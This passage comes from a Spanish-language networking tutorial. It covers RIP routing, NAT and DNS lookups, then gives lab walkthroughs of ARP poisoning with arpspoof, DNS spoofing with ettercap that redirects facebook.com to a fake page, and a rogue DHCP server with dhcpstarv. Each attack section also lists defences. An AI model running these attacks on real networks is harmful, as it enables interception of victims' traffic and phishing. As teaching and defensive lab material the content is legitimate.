✅ ¡Éxito! Los routers se han comunicado, **han intercambiado rutas usando RIP** y las PCs se ven entre sí.

---

### 📖 ¿Qué aprendiste?

- Qué es un protocolo de enrutamiento dinámico.
- Cómo funciona RIP (Routing Information Protocol).
- Cómo configurar routers para que aprendan rutas automáticamente.
- Cómo verificar que las rutas funcionen correctamente.

---

[🔼](#índice)

---

## **808. Configuración de enrutamiento dinámico**

### 📡 ¿Qué es el Enrutamiento Dinámico?

El **enrutamiento dinámico** es una técnica que permite a los **routers aprender automáticamente las rutas** hacia otras redes **sin necesidad de configurarlas manualmente** (como ocurre con el enrutamiento estático).

> 📌 En vez de ingresar las rutas manualmente, los routers se comunican entre ellos usando **protocolos de enrutamiento** y actualizan sus tablas automáticamente.

---

### 🤖 ¿Qué hace el enrutamiento dinámico?

- Intercambia información de red con otros routers
- Detecta cambios en la topología
- Se adapta automáticamente a esos cambios
- Elige la mejor ruta según su métrica (distancia, ancho de banda, etc.)

---

### 🔍 Protocolos comunes usados para enrutamiento dinámico

| Protocolo | Tipo                | Métrica usada          | Dificultad de configuración |
| --------- | ------------------- | ---------------------- | --------------------------- |
| **RIP**   | Vector de distancia | Número de saltos       | Fácil ✅                    |
| **OSPF**  | Estado de enlace    | Costo (ancho de banda) | Medio/avanzado ❌✅         |
| **EIGRP** | Híbrido (Cisco)     | Métricas compuestas    | Medio ✅                    |

---

### 🧰 ¿Qué necesitas para practicar?

#### Opción A – 🧪 Packet Tracer (más simple)

- 2 routers (R1 y R2)
- 2 PCs (PC1 y PC2)
- Cableado entre ellos
- Configuración IP en cada interfaz

#### Opción B – 🧰 GNS3 o VirtualBox con Linux (más avanzado)

---

### 🛠️ ¿Cómo se instala y configura el enrutamiento dinámico?

#### Usaremos RIP porque es el **más fácil de entender y configurar**.

---

### 🏗️ Ejemplo práctico completo: Configuración de enrutamiento dinámico con RIP

#### 🎯 Objetivo:

Hacer que dos PCs en redes diferentes puedan comunicarse **sin configurar rutas manuales**, usando **RIP**.

---

#### 🧱 Topología:

```
[PC1] — [R1] — [R2] — [PC2]

Red A (PC1 - R1): 192.168.1.0/24
Red B (PC2 - R2): 10.0.0.0/24
Red entre routers: 192.168.2.0/30
```

---

#### 1️⃣ Configurar interfaces y direcciones IP

##### 🔹 En R1:

```plaintext
Router> enable
Router# configure terminal

Router(config)# interface g0/0
Router(config-if)# ip address 192.168.1.1 255.255.255.0
Router(config-if)# no shutdown

Router(config)# interface g0/1
Router(config-if)# ip address 192.168.2.1 255.255.255.252
Router(config-if)# no shutdown
```

##### 🔹 En R2:

```plaintext
Router> enable
Router# configure terminal

Router(config)# interface g0/0
Router(config-if)# ip address 192.168.2.2 255.255.255.252
Router(config-if)# no shutdown

Router(config)# interface g0/1
Router(config-if)# ip address 10.0.0.1 255.255.255.0
Router(config-if)# no shutdown
```

---

#### 2️⃣ Configurar PCs

- **PC1:**

  - IP: `192.168.1.2`
  - Máscara: `255.255.255.0`
  - Gateway: `192.168.1.1`

- **PC2:**

  - IP: `10.0.0.2`
  - Máscara: `255.255.255.0`
  - Gateway: `10.0.0.1`

---

#### 3️⃣ Configurar enrutamiento dinámico con RIP

##### 🔸 En R1:

```plaintext
Router(config)# router rip
Router(config-router)# version 2
Router(config-router)# no auto-summary
Router(config-router)# network 192.168.1.0
Router(config-router)# network 192.168.2.0
```

##### 🔸 En R2:

```plaintext
Router(config)# router rip
Router(config-router)# version 2
Router(config-router)# no auto-summary
Router(config-router)# network 192.168.2.0
Router(config-router)# network 10.0.0.0
```

---

#### 4️⃣ Probar conectividad

Desde **PC1**, haz ping a **PC2**:

```bash
ping 10.0.0.2
```

Deberías ver:

```
Reply from 10.0.0.2: bytes=32 time<1ms TTL=255
```

✅ ¡Funcionando! RIP aprendió automáticamente las rutas.

---

### 📖 ¿Qué aprendiste?

- Qué es el enrutamiento dinámico y cómo funciona
- Cómo instalarlo/configurarlo usando RIP
- Cómo conectar dos redes sin rutas estáticas
- Cómo probar que el enrutamiento dinámico funciona

---

### 🎁 Extra: ¿Cómo ver las rutas aprendidas?

En cada router escribe:

```plaintext
Router# show ip route
```

Deberías ver entradas con una letra **R** (de RIP), así:

```
R    10.0.0.0/24 [120/1] via 192.168.2.2, 00:00:15, GigabitEthernet0/1
```

---

### 📌 Conclusión

El **enrutamiento dinámico** permite que tus routers aprendan y se adapten solos. Con protocolos como RIP, puedes conectar redes fácilmente y sin errores manuales. Es ideal para redes medianas, laboratorios y ambientes en crecimiento.

---

[🔼](#índice)

---

## **809. Configuración de segundo enrutador y verificación de tablas de enrutamiento**

### 🔁 ¿Qué significa configurar un segundo enrutador?

Cuando tienes más de una red, a menudo necesitas más de un router. **Agregar un segundo enrutador** permite conectar varias redes entre sí. Para que funcione, ambos routers deben tener rutas hacia las redes conectadas al otro.

---

### 📌 ¿Qué implica esta configuración?

- Asignar IPs a las interfaces del segundo router
- Conectarlo al primer router
- Configurar **enrutamiento dinámico** o **enrutamiento estático**
- Verificar que los dispositivos de un lado lleguen al otro
- Revisar la **tabla de enrutamiento**, que muestra por dónde salen los paquetes

---

### 🧰 ¿Qué necesitas para este laboratorio?

#### ✅ Equipos en **Packet Tracer**:

- 2 routers (R1 y R2)
- 2 PCs (PC1 y PC2)
- Cables
- Configuración básica de IP

---

### 💡 Escenario de ejemplo

```
PC1 ---- R1 ---- R2 ---- PC2
```

- Red A (PC1 ↔ R1): `192.168.1.0/24`
- Red B (R1 ↔ R2): `192.168.2.0/30`
- Red C (R2 ↔ PC2): `10.0.0.0/24`

---

### 🔧 Paso a paso: Configuración de segundo router y verificación

---

#### 1️⃣ Asignar direcciones IP

##### 📍 R1:

```plaintext
enable
configure terminal

interface g0/0
ip address 192.168.1.1 255.255.255.0
no shutdown

interface g0/1
ip address 192.168.2.1 255.255.255.252
no shutdown
```

---

##### 📍 R2 (el **segundo enrutador**):

```plaintext
enable
configure terminal

interface g0/0
ip address 192.168.2.2 255.255.255.252
no shutdown

interface g0/1
ip address 10.0.0.1 255.255.255.0
no shutdown
```

---

#### 2️⃣ Configurar las PCs

- **PC1**: IP: `192.168.1.10`, Máscara: `255.255.255.0`, Gateway: `192.168.1.1`
- **PC2**: IP: `10.0.0.10`, Máscara: `255.255.255.0`, Gateway: `10.0.0.1`

---

#### 3️⃣ Configurar enrutamiento entre routers

Usaremos **RIP** (enrutamiento dinámico) para que **ambos routers compartan rutas automáticamente**.

##### 🔹 En R1:

```plaintext
router rip
version 2
no auto-summary
network 192.168.1.0
network 192.168.2.0
```

---

##### 🔹 En R2:

```plaintext
router rip
version 2
no auto-summary
network 192.168.2.0
network 10.0.0.0
```

---

#### 4️⃣ Verificar conectividad

##### Desde **PC1**, haz ping a **PC2**:

```bash
ping 10.0.0.10
```

Deberías ver respuestas exitosas. Si no, revisa cables, IPs y configuración.

---

#### 5️⃣ Verificar tabla de enrutamiento en ambos routers

Esto es **clave para saber si los routers están aprendiendo las rutas correctamente**.

##### En **R1**:

```plaintext
show ip route
```

Deberías ver una línea como esta:

```
R    10.0.0.0/24 [120/1] via 192.168.2.2, 00:00:25, GigabitEthernet0/1
```

✅ Esto significa que R1 ha aprendido la ruta hacia la red 10.0.0.0 a través de R2.

---

##### En **R2**:

```plaintext
show ip route
```

Y verás algo como:

```
R    192.168.1.0/24 [120/1] via 192.168.2.1, 00:00:15, GigabitEthernet0/0
```

✅ Lo que indica que R2 conoce cómo llegar a la red 192.168.1.0 a través de R1.

---

### 🎓 ¿Qué significa la salida `show ip route`?

La tabla de enrutamiento muestra:

- Las **rutas conocidas**
- **Cómo** y **por dónde** llegar a esas redes
- Qué protocolo las aprendió:

  - `R` → RIP
  - `O` → OSPF
  - `C` → Conectada directamente
  - `S` → Estática

---

### 🧪 Resumen de comandos importantes

| Comando               | ¿Para qué sirve?                       |
| --------------------- | -------------------------------------- |
| `show ip route`       | Ver las rutas aprendidas               |
| `ping <IP>`           | Verificar conectividad                 |
| `traceroute <IP>`     | Ver por qué camino viaja un paquete    |
| `show running-config` | Ver la configuración actual del router |

---

### 🏁 Conclusión

✅ Configurar un segundo router permite extender tu red a nuevas subredes.

✅ Con enrutamiento dinámico como **RIP**, los routers aprenden automáticamente cómo comunicarse.

✅ Verificar las **tablas de enrutamiento** es esencial para asegurarte de que todo esté conectado correctamente.

---

[🔼](#índice)

---

## **810. Configuración de NAT y redireccionamiento**

### 🌐 ¿Qué es NAT?

**NAT (Network Address Translation)** es una técnica usada en routers que permite traducir direcciones IP privadas (por ejemplo, 192.168.x.x) a una IP pública (por ejemplo, 187.45.80.1) y viceversa.

> 🧠 Se usa para que los dispositivos de una red privada puedan **salir a Internet usando una única IP pública**.

---

#### 📦 Tipos de NAT

| Tipo                   | ¿Qué hace?                                                            |
| ---------------------- | --------------------------------------------------------------------- |
| **NAT Estática**       | Mapea una IP privada a una IP pública fija (1:1).                     |
| **NAT Dinámica**       | Usa un grupo de IPs públicas y las asigna dinámicamente.              |
| **PAT (NAT Overload)** | Traduce muchas IPs privadas a una sola IP pública usando **puertos**. |

🔁 **PAT es el más común** y es el que usan los routers domésticos y empresas pequeñas.

---

### 🧭 ¿Qué es el redireccionamiento de puertos?

El **redireccionamiento de puertos (Port Forwarding)** es una función de NAT que permite:

- Enviar el tráfico que llega a la IP pública del router en un **puerto específico (ej. 80, 22, 3389)** a una **máquina interna** de la red.

📌 Ejemplo:

Tu router recibe una conexión en el puerto 80, y lo redirige al servidor web interno 192.168.1.100.

---

### 🛠️ ¿Cómo se configura NAT?

Vamos a usar **Cisco Packet Tracer** para el ejemplo, pero también puedes aplicarlo en GNS3 o un router real.

---

#### 🧰 Equipos necesarios para el ejemplo

- 1 Router
- 2 PCs (una interna, una externa simulando Internet)
- 1 servidor web (opcional)
- Red interna: `192.168.1.0/24`
- Red externa (ISP): `200.0.0.0/30`

---

### ⚙️ Ejemplo completo paso a paso

#### 🧱 Escenario:

```
[PC1]——[Router]——[PC2 (simula Internet)]

Red interna: 192.168.1.0/24
Red externa: 200.0.0.0/30
IP pública del router: 200.0.0.1
IP interna del router: 192.168.1.1
PC1 (cliente local): 192.168.1.10
PC2 (cliente externo): 200.0.0.2
```

---

#### 1️⃣ Configurar direcciones IP

##### En **PC1 (cliente interno)**:

- IP: `192.168.1.10`
- Máscara: `255.255.255.0`
- Gateway: `192.168.1.1`

##### En **PC2 (cliente externo/Internet)**:

- IP: `200.0.0.2`
- Máscara: `255.255.255.252`
- Gateway: `200.0.0.1`

---

#### 2️⃣ Configurar interfaces del router

```plaintext
Router> enable
Router# configure terminal

! Red interna
interface FastEthernet0/0
ip address 192.168.1.1 255.255.255.0
ip nat inside
no shutdown

! Red externa (Internet)
interface FastEthernet0/1
ip address 200.0.0.1 255.255.255.252
ip nat outside
no shutdown
```

---

#### 3️⃣ Configurar NAT con PAT (NAT Overload)

##### Paso 1: Crear la lista de acceso que identifique las IPs internas

```plaintext
access-list 1 permit 192.168.1.0 0.0.0.255
```

##### Paso 2: Aplicar la traducción NAT

```plaintext
ip nat inside source list 1 interface FastEthernet0/1 overload
```

✅ Esto indica: "Las IPs de la red 192.168.1.0 saldrán por la interfaz externa con traducción NAT utilizando la IP pública del router (200.0.0.1) y distintos puertos".

---

#### 4️⃣ Verificación

Desde **PC1**, haz ping a **PC2 (Internet)**:

```bash
ping 200.0.0.2
```

🔍 En el router, puedes verificar las traducciones NAT activas:

```plaintext
show ip nat translations
```

Verás algo así:

```
Pro Inside global    Inside local     Outside local      Outside global
udp 200.0.0.1:1025   192.168.1.10:1025   200.0.0.2:53       200.0.0.2:53
```

---

#### 🔁 ¿Y si quieres redirigir un puerto (ej. HTTP)?

##### 🧩 Redireccionamiento de puerto 80 al servidor web interno

Supón que tienes un servidor web en 192.168.1.100 (interna), y quieres que cualquier persona que acceda a 200.0.0.1 en el puerto 80 sea redirigida al servidor web.

```plaintext
ip nat inside source static tcp 192.168.1.100 80 200.0.0.1 80
```

✅ Esto le dice al router:
"Cuando alguien se conecte por **TCP** al **puerto 80** en mi IP pública (200.0.0.1), redirígelo al puerto 80 del host interno **192.168.1.100**".

---

#### 🔎 Verificación de redireccionamiento

Desde **PC2 (Internet)**, abre navegador o haz:

```bash
telnet 200.0.0.1 80
```

O si usas Packet Tracer, puedes usar el navegador del PC externo. Si todo está bien, ¡verás la página web del servidor interno!

---

### 📖 Comandos importantes

| Comando                    | Descripción                                  |
| -------------------------- | -------------------------------------------- |
| `ip nat inside`            | Define interfaz como parte de la red privada |
| `ip nat outside`           | Define interfaz como parte de Internet       |
| `access-list 1 permit ...` | Permite el rango de IPs a traducir           |
| `ip nat inside source ...` | Aplica la traducción                         |
| `show ip nat translations` | Muestra las traducciones activas             |
| `show ip nat statistics`   | Estadísticas de NAT                          |

---

### ✅ Conclusión

El **NAT** permite a tus dispositivos locales navegar en Internet sin tener IPs públicas. El **redireccionamiento de puertos** permite que servicios internos (como un servidor web) sean accesibles desde fuera.

Con estos pasos puedes:

- Configurar NAT dinámico (PAT)
- Redirigir puertos a servidores internos
- Verificar el funcionamiento con comandos clave

---

[🔼](#índice)

---

## **811. Análisis de DNS**


### 🌐 ¿Qué es DNS?

**DNS (Domain Name System)** es el sistema que traduce nombres de dominio legibles por humanos (como `www.google.com`) a direcciones IP (como `142.250.190.68`) que las computadoras usan para comunicarse.

> 🎯 Es como la guía telefónica de Internet: tú buscas un nombre, y DNS te da el número.

---

### 🔍 ¿Qué es el análisis de DNS?

El **análisis de DNS** es el proceso de investigar cómo se resuelve un dominio, qué registros tiene, cómo responde un servidor DNS, y si existen posibles problemas o manipulaciones (por ejemplo, ataques DNS spoofing).

---

### 🧠 ¿Para qué sirve?

- 🔎 Detectar dominios falsos o maliciosos
- 💻 Analizar tráfico de red en pruebas de pentesting
- 📡 Ver cómo se resuelve un dominio (registros A, MX, NS, TXT)
- 🔐 Verificar configuraciones de seguridad (como SPF, DKIM)
- 🕵️‍♂️ Descubrir infraestructura de una organización

---

### 🛠️ Herramientas para análisis de DNS

Aquí hay algunas herramientas útiles, con instalación y ejemplos:

#### 🔧 1. **`nslookup`** (integrado en Windows, Linux, macOS)

Consulta simple de DNS.

##### ✅ Uso básico:

```bash
nslookup www.google.com
```

#### 🔎 Ver registros específicos:

```bash
nslookup
> set type=MX
> gmail.com
```

---

#### 🔧 2. **`dig`** (Linux/macOS; instalar en Windows con WSL o Git Bash)

Herramienta más avanzada que `nslookup`.

##### 🧪 Instalación en Linux (Debian/Ubuntu):

```bash
sudo apt update && sudo apt install dnsutils
```

##### ✅ Uso básico:

```bash
dig www.google.com
```

#### 🔎 Ver registros específicos:

```bash
dig google.com MX
dig google.com NS
dig google.com TXT
```

#### 🌐 Consulta inversa:

```bash
dig -x 8.8.8.8
```

---

#### 🔧 3. **`whois`** (verifica datos del dominio)

##### Instalación en Linux:

```bash
sudo apt install whois
```

##### Uso:

```bash
whois google.com
```

---

#### 🔧 4. **Wireshark** (análisis de tráfico DNS en la red)

- Es un analizador de paquetes.
- Puedes capturar tráfico y filtrar por protocolo DNS.

##### Filtro para DNS:

```
dns
```

##### Para ver solo solicitudes:

```
dns.flags.response == 0
```

---

### 🛡️ Análisis en Pentesting / Seguridad

Durante una auditoría, el análisis DNS se usa para:

- **Descubrir subdominios**: como `vpn.empresa.com`, `mail.empresa.com`
- **Recolectar información**: registros MX (correo), TXT (verificaciones), etc.
- **Analizar tráfico DNS**: buscar comunicaciones maliciosas o DNS tunneling

---

### 🧪 Ejemplo completo: Análisis de dominio con `dig` y `whois`

#### Paso 1: Verificar registros A (dirección IP del dominio)

```bash
dig github.com A
```

Salida esperada:

```bash
;; ANSWER SECTION:
github.com.   60  IN  A  140.82.114.3
```

#### Paso 2: Ver registros NS (servidores DNS del dominio)

```bash
dig github.com NS
```

Ejemplo:

```
github.com.  172800  IN  NS  ns-421.awsdns-52.com.
```

#### Paso 3: Ver registros MX (correo)

```bash
dig github.com MX
```

Ejemplo:

```
github.com.  3600 IN MX 10 aspmx.l.google.com.
```

#### Paso 4: Ver registros TXT (pueden incluir SPF, seguridad, etc.)

```bash
dig github.com TXT
```

Ejemplo:

```
"v=spf1 include:_spf.google.com ~all"
```

#### Paso 5: Consulta `whois`

```bash
whois github.com
```

Ejemplo:

```
Registrar: MarkMonitor Inc.
Creation Date: 2007-03-09T21:10:36Z
...
Name Server: ns-421.awsdns-52.com
```

---

### 🧪 Ejemplo con Wireshark (análisis de tráfico DNS)

1. Abre **Wireshark**
2. Comienza la captura en tu interfaz de red
3. Abre un navegador y visita `www.google.com`
4. En Wireshark, usa el filtro:

```
dns
```

5. Verás paquetes DNS como:

```
Standard query 0x1a3a A www.google.com
Standard query response 0x1a3a A 142.250.64.196
```

✅ Así puedes ver cómo el DNS resuelve dominios en tiempo real.

---

### ✅ Conclusión

| Herramienta | ¿Para qué sirve?                      |
| ----------- | ------------------------------------- |
| `nslookup`  | Consultas básicas de DNS              |
| `dig`       | Consultas avanzadas y detalladas      |
| `whois`     | Información de registro del dominio   |
| `Wireshark` | Ver tráfico DNS en red en tiempo real |

🔍 Analizar DNS es una habilidad fundamental para administradores, pentesters y analistas de seguridad. Permite obtener **información valiosa** sobre una red o dominio, e incluso descubrir posibles **vulnerabilidades o errores de configuración**.

---

[🔼](#índice)

---

## **812. ARP Poisoning**



### 🔍 ¿Qué es ARP?

**ARP (Address Resolution Protocol)** es el protocolo que traduce direcciones IP a direcciones MAC dentro de una red local.

📦 Ejemplo simple:

> Si tu PC quiere enviar datos a la IP `192.168.1.5`, primero debe saber cuál es la **MAC** asociada a esa IP.
>
> Para eso, **pregunta por ARP**:
>
> “¿Quién tiene la IP 192.168.1.5?”
>
> Y esa máquina responde con su MAC.

---

### 🚨 ¿Qué es ARP Poisoning?

**ARP Poisoning** o **Envenenamiento ARP** es un **ataque de suplantación (spoofing)** en una red local (LAN) donde el atacante **envía respuestas ARP falsas** para engañar a los dispositivos y redirigir el tráfico hacia él.

🎯 Objetivo: Interceptar, espiar o modificar el tráfico entre dos dispositivos.

---

#### 🧠 ¿Cómo funciona?

1. En una red LAN, todos confían en las respuestas ARP sin validarlas.
2. El atacante envía mensajes falsos diciendo:

   - “¡La IP del router soy yo!” (para la víctima)
   - “¡La IP de la víctima soy yo!” (para el router)

3. Ambos creen que el atacante es el otro.
4. El atacante **intercepta el tráfico**: esto se llama **MITM (Man-In-The-Middle)**.

---

### 🧰 Herramientas necesarias

Para hacer un análisis o demostración de ARP Poisoning necesitas:

- 🐧 **Kali Linux** o Parrot OS
- 🕵️‍♂️ Herramientas como:

  - `arpspoof` (de Dsniff)
  - `ettercap`
  - `wireshark` (para ver el tráfico)
  - `netdiscover` (opcional, para escaneo ARP)

---

### 🧪 Instalación en Kali Linux

Kali ya incluye muchas herramientas. Asegúrate de tener estas:

```bash
sudo apt update
sudo apt install dsniff ettercap-graphical wireshark
```

---

### 🧪 Ejemplo completo: Ataque ARP Poisoning con `arpspoof`

#### 🎯 Escenario de red (LAN)

- Router: `192.168.1.1`
- Víctima: `192.168.1.10`
- Atacante (Kali): `192.168.1.100`

---

#### 1️⃣ Habilitar reenvío de paquetes (IP Forwarding)

Esto permite que Kali actúe como un puente entre la víctima y el router.

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

---

#### 2️⃣ Abrir 2 terminales: uno para cada dirección

##### Terminal 1: Engañar al **router**

```bash
arpspoof -i eth0 -t 192.168.1.1 192.168.1.10
```

🔁 Le dices al router: “Yo (el atacante) soy la víctima”.

#### Terminal 2: Engañar a la **víctima**

```bash
arpspoof -i eth0 -t 192.168.1.10 192.168.1.1
```

🔁 Le dices a la víctima: “Yo (el atacante) soy el router”.

> 🔧 Cambia `eth0` por el nombre de tu interfaz de red si es diferente (puedes verlas con `ip a`).

---

#### 3️⃣ Abre **Wireshark** para analizar el tráfico

Filtra solo los paquetes HTTP (si hay) o DNS:

```plaintext
http || dns
```

✅ Verás tráfico de la víctima pasando por tu máquina.

---

#### 4️⃣ Detener el ataque y restaurar red

Una vez terminado, desactiva el reenvío:

```bash
echo 0 > /proc/sys/net/ipv4/ip_forward
```

Y reinicia la red de la víctima si es necesario (para limpiar su caché ARP).

---

### 🛡️ ¿Cómo protegerse del ARP Poisoning?

1. 🛡️ Usar **ARP estático** en redes críticas (IP ↔ MAC fijas).
2. 🔒 Usar herramientas de detección (como `arpwatch`).
3. 💡 Activar detección de ARP spoofing en switches (port security).
4. 🔐 Usar cifrado de extremo a extremo (HTTPS, VPN).

---

### 🧠 Comandos útiles

| Comando                      | Función                         |
| ---------------------------- | ------------------------------- |
| `ip a`                       | Ver interfaces y direcciones IP |
| `arpspoof -i eth0 -t X Y`    | Envenenar ARP entre X y Y       |
| `echo 1 > /proc/sys/net/...` | Activar reenvío IP              |
| `wireshark`                  | Analizar paquetes               |
| `arp -a` (en víctima)        | Ver tabla ARP                   |

---

### ✅ Conclusión

| Concepto          | Detalles                                           |
| ----------------- | -------------------------------------------------- |
| **ARP Poisoning** | Ataque donde el atacante engaña a dispositivos ARP |
| **Objetivo**      | Interceptar tráfico o manipular conexiones         |
| **Herramientas**  | `arpspoof`, `ettercap`, `wireshark`                |
| **Requisitos**    | Estar en la misma red LAN que la víctima           |
| **Prevención**    | ARP estático, switches inteligentes, VPN           |

---

[🔼](#índice)

---

## **813. DNS Spoofing**



### 🌐 ¿Qué es DNS Spoofing?

**DNS Spoofing** (también llamado **DNS cache poisoning**) es un tipo de ataque donde un atacante **envía respuestas DNS falsas** a una víctima con el fin de redirigirla a un sitio web malicioso o falso.

> 🧠 En otras palabras: cuando tú buscas `facebook.com`, el atacante te engaña para que tu navegador vaya a otro lugar (por ejemplo, a un sitio falso que parece Facebook).

---

### 🧠 ¿Cómo funciona?

#### ⚙️ El proceso normal de resolución DNS:

1. Tú escribes `facebook.com` en el navegador.
2. Tu equipo pregunta: “¿Cuál es la IP de `facebook.com`?”
3. Un servidor DNS responde: “Es 157.240.229.35” (por ejemplo).
4. Tu navegador se conecta a esa IP real.

#### 🧨 En DNS Spoofing:

1. El atacante **intercepta** o **manipula** la respuesta.
2. El servidor DNS o la víctima recibe una IP falsa (por ejemplo, `192.168.1.100`, que es el servidor del atacante).
3. La víctima entra a un sitio web falso sin saberlo.

---

### 🎯 ¿Para qué se usa este ataque?

- **Phishing**: engañar a usuarios para robar credenciales.
- **Instalación de malware**: redirigir a sitios infectados.
- **MITM (Man-in-the-Middle)**: interceptar comunicaciones.
- **Pruebas de seguridad**: en pentesting para demostrar riesgos.

---

### 🧰 Herramientas necesarias para un laboratorio

1. **Kali Linux** (atacante)
2. **Una víctima en la misma red** (por ejemplo, una máquina Windows o Android)
3. Herramientas:

   - `ettercap`
   - `wireshark`
   - Opcional: servidor falso usando `apache2` o `dnsspoof`

---

### 🔧 Instalación de herramientas en Kali Linux

```bash
sudo apt update
sudo apt install ettercap-graphical apache2 dsniff wireshark
```

---

### 🧪 Laboratorio: Ataque DNS Spoofing con Ettercap

#### 📌 Escenario:

- Kali (atacante): `192.168.1.100`
- Víctima: `192.168.1.101`
- Red: `192.168.1.0/24`
- Objetivo: cuando la víctima busque `facebook.com`, será redirigida a una **página falsa alojada en Kali**.

---

#### ✅ Paso a paso

##### 1️⃣ Habilita IP forwarding (reenviar tráfico)

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

##### 2️⃣ Crea un servidor web falso

```bash
sudo service apache2 start
```

Pon tu página falsa en:

```bash
cd /var/www/html
sudo nano index.html
```

Contenido simple:

```html
<h1>Esto es un sitio falso de Facebook</h1>
```

##### 3️⃣ Configura el archivo de DNS spoofing

Edita el archivo `/usr/share/ettercap/etter.dns`:

```bash
sudo nano /usr/share/ettercap/etter.dns
```

Agrega una línea así:

```
facebook.com A 192.168.1.100
*.facebook.com A 192.168.1.100
```

Eso redirige cualquier subdominio de facebook.com a tu máquina Kali.

##### 4️⃣ Inicia Ettercap en modo gráfico

```bash
sudo ettercap -G
```

#### En Ettercap:

1. Ve a `Sniff` → `Unified sniffing`
2. Selecciona tu interfaz de red (ej: `eth0`)
3. Ve a `Hosts` → `Scan for hosts`
4. Ve a `Hosts` → `Host list`
5. Selecciona tu **víctima** y el **router**

   - Añade a la víctima como Target 1
   - Añade al router como Target 2

6. Ve a `Mitm` → `ARP poisoning`

   - Marca **"Sniff remote connections"**

7. Ve a `Plugins` → `Manage plugins`

   - Haz doble clic en `dns_spoof` para activarlo

---

##### 5️⃣ ¡Ataque en acción!

- La víctima intenta acceder a `facebook.com`
- El navegador será redirigido a tu servidor Apache (el sitio falso)
- Puedes usar **Wireshark** para monitorear y ver las respuestas DNS falsas

---

### 🧪 Resultado esperado:

La víctima ve algo como:

```html
<h1>Esto es un sitio falso de Facebook</h1>
```

Y cree estar en el sitio legítimo, aunque fue engañada por el atacante.

---

### 🛡️ ¿Cómo protegerse?

| Medida                   | Explicación                                                              |
| ------------------------ | ------------------------------------------------------------------------ |
| 🔒 HTTPS / HSTS          | El navegador puede alertar si el sitio falso no tiene certificado válido |
| 🛡️ DNSSEC                | Protege las respuestas DNS con firmas digitales                          |
| 🔍 Seguridad en switches | Evitar ARP Spoofing que permite interceptar paquetes                     |
| 🔐 VPNs                  | Aíslan y encriptan todo el tráfico, incluso DNS                          |

---

### ✅ Resumen Final

| Tema            | Detalle                                             |
| --------------- | --------------------------------------------------- |
| 🧠 Qué es       | Ataque que falsifica respuestas DNS                 |
| 🎯 Objetivo     | Redirigir a la víctima a un sitio falso o malicioso |
| 🧰 Herramientas | `ettercap`, `apache2`, `wireshark`, `dsniff`        |
| 🛡️ Prevención   | HTTPS, DNSSEC, seguridad de red local               |

---

[🔼](#índice)

---

## **814. DHCP Spoofing**



### 🧠 ¿Qué es DHCP Spoofing?

**DHCP Spoofing** es un tipo de ataque en redes donde un atacante introduce un **servidor DHCP falso** en la red local para **engañar a las víctimas** y entregarles información maliciosa, como una puerta de enlace falsa o un DNS controlado por el atacante.

📦 El objetivo es tomar el control del tráfico de la víctima, redirigirlo o espiar las comunicaciones.

---

### 🧾 ¿Qué es DHCP?

**DHCP (Dynamic Host Configuration Protocol)** es el protocolo que asigna automáticamente:

- Dirección IP
- Máscara de red
- Puerta de enlace (gateway)
- Servidor DNS

… a los dispositivos de una red local.

---

### 🧨 ¿Qué hace el atacante en DHCP Spoofing?

1. Entra a la red como un host normal.
2. Actúa como **falso servidor DHCP**.
3. Cuando una víctima se conecta a la red, **recibe configuración maliciosa**:

   - Una **IP válida**.
   - Una **puerta de enlace falsa** (la IP del atacante).
   - Un **servidor DNS falso**.

Así, todo el tráfico pasa por el atacante (Man-in-the-Middle).

---

### 🧰 Herramientas necesarias

Usaremos **Kali Linux** como atacante. Las herramientas son:

- `dsniff` (para `dhcpd`)
- `dhcpstarv` (opcional, para agotar el DHCP real)
- `iptables` (para redireccionar tráfico)
- `Wireshark` (para ver qué pasa)

> Todo se puede hacer en una red local real o en un laboratorio con 2 máquinas virtuales (Kali + víctima Windows/Linux).

---

#### 🔧 Instalación en Kali Linux

La mayoría ya viene instalada, pero puedes asegurarte con:

```bash
sudo apt update
sudo apt install dsniff isc-dhcp-server wireshark
```

---

### 📁 Configuración del servidor DHCP falso

#### 1️⃣ Crear archivo de configuración `dhcpd.conf`

```bash
sudo nano /etc/dhcp/dhcpd.conf
```

Agrega:

```conf
default-lease-time 600;
max-lease-time 7200;

subnet 192.168.1.0 netmask 255.255.255.0 {
  range 192.168.1.50 192.168.1.100;
  option routers 192.168.1.200;         # IP del atacante
  option domain-name-servers 192.168.1.200; # DNS del atacante
}
```

🔧 Explicación:

- `option routers`: indica a las víctimas cuál es su puerta de enlace. Ponemos la del atacante.
- `range`: IPs que asignará el servidor DHCP falso.
- `option domain-name-servers`: DNS que usará la víctima (el atacante también puede controlar esto).

---

### 💥 Ejemplo práctico: Ataque DHCP Spoofing

#### 🧪 Escenario:

- Red: `192.168.1.0/24`
- Atacante (Kali): `192.168.1.200`
- Víctima: otro PC que se conecta a la red

---

#### ✅ Paso a paso

##### 1️⃣ Habilita reenvío de IP

```bash
echo 1 > /proc/sys/net/ipv4/ip_forward
```

##### 2️⃣ Levanta el servidor DHCP falso

```bash
sudo dhcpd -cf /etc/dhcp/dhcpd.conf
sudo systemctl start isc-dhcp-server
```

Verifica con:

```bash
sudo journalctl -u isc-dhcp-server
```

---

##### 3️⃣ Conecta la víctima a la red

- Al conectarse, recibirá IP + gateway + DNS del **atacante**.
- Puedes comprobar con `ipconfig` (Windows) o `ip a` (Linux).

> 🕵️ Ahora **todo el tráfico pasa por ti**. Puedes hacer sniffing con Wireshark, redirigir DNS, o hacer MITM con `ettercap`.

---

### 🧼 Opcional: Deshabilitar el DHCP legítimo

En un entorno real, el DHCP del router seguirá funcionando, así que puedes **desactivarlo** o **agotar sus direcciones** usando:

```bash
sudo dhcpstarv -i eth0
```

Esto envía muchas solicitudes para llenar la tabla del DHCP real.

---

### 🧠 ¿Para qué se usa DHCP Spoofing?

- **Espionaje de red (sniffing)**: ver tráfico de usuarios
- **Redirección a sitios falsos (phishing)**
- **Captura de contraseñas (MITM + SSLStrip)**
- **Control de red en entornos inseguros**

---

### 🛡️ ¿Cómo protegerse del DHCP Spoofing?

| Medida              | Explicación                                                                    |
| ------------------- | ------------------------------------------------------------------------------ |
| 🔒 DHCP Snooping    | Activarlo en switches administrables. Solo permite DHCP en puertos confiables. |
| 🔐 VLANs            | Aislar el tráfico entre segmentos                                              |
| 🕵️ Monitoreo de red | Usar herramientas como `arpwatch` o `snort`                                    |
| 🔄 IP estática      | No usar DHCP en dispositivos críticos                                          |

---

### ✅ Resumen final

| Concepto        | Detalles                                      |
| --------------- | --------------------------------------------- |
| 🧠 Qué es       | Un ataque donde se falsifica un servidor DHCP |
